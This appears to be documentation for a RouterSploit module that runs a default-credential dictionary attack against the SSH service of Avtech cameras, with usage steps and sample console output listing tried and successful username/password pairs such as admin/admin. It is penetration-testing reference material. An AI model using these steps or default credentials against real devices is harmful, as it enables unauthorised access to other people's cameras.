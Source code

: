 ## Description

Module performs dictionary attack with default credentials against Avtech Camera SSH service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/avtech/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/avtech/ssh_default_creds
rsf (Avtech Camera Default SSH Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Avtech Camera Default SSH Creds) > run
[*] Running module...
[*] Target exposes SSH service
[*] Starting default credentials attack against SSH service
[*] thread-0 thread is starting...
[-] SSH Authentication Failed - Username: 'admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'admin' Password: '123456'
[-] SSH Authentication Failed - Username: 'Admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'Admin' Password: '123456'
[+] SSH Authentication Successful - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 2.3932292461395264 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     22       ssh         admin        admin 

```
